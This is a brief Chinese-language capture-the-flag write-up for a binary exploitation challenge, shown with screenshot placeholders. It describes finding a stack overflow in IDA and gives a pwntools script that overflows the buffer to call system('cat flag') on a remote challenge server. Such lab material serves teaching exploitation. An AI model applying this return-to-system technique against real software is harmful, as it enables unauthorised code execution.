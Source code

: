 ida打开

![image-20200922165259087](wp.assets/image-20200922165259087.png)

又是输入读多了

![image-20200922165411472](wp.assets/image-20200922165411472.png)

看到能调system函数，字符串有 cat flag

```python
from pwn import*
#r = process('./run')
r = remote('47.93.116.52',20202)

elf = ELF('./run')
sys = elf.symbols['system']


payload = b'a'*0x88 + b'b'*4  + p32(sys) + p32(0x12341234) +  p32(elf.search(b'cat flag').__next__())

r.send(payload)

r.interactive()

```

